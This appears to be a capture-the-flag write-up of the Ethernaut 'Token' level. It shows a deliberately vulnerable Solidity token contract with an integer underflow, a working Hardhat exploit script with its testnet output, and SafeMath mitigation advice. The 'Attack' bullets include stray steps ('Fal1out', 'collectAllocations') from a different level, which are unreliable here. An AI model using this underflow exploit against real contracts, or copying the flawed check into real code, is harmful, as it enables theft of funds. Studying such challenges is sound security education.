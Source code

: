 ```yaml
---
title: Ethernaut Token
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Token challenge writeup
---
```


## Token

### Challenge

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

Things that might help:

*  What is an odometer?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Background

This is a simple integer overflow bug. The statement `require(balances[msg.sender] - _value >= 0);` is always true since `balances` is a `uint`

### Attack

Call transfer with any amount to trigger an integer overflow.

* call `Fal1out` to become the owner
* call `collectAllocations` collect any funds

#### token-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    tokenAddress = "0xe4452a79b5094A91f8A00Fd65aF30e7745730e29";
    contract = await ethers.getContractAt("Token", tokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address   : " + contract.address)
    console.log("Token Balance   : " + await contract.balanceOf(account.address))

    // transfer token funds
    tx = await contract.connect(account).transfer("0x0000000000000000000000000000000000000000", 21)
    receipt = await tx.wait()

    console.log("Token Balance   : " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/token-solve.js --network rinkeby
Level address   : 0xe4452a79b5094A91f8A00Fd65aF30e7745730e29
Token Balance   : 20
Token Balance   : 115792089237316195423570985008687907853269984665640564039457584007913129639935
```

### Success Message

Overflows are very common in solidity and must be checked for with control statements such as:
```
if(a + c > a) {
  a = a + c;
}
```
An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:
```
a = a.add(c);
```
If there is an overflow, the code will revert.
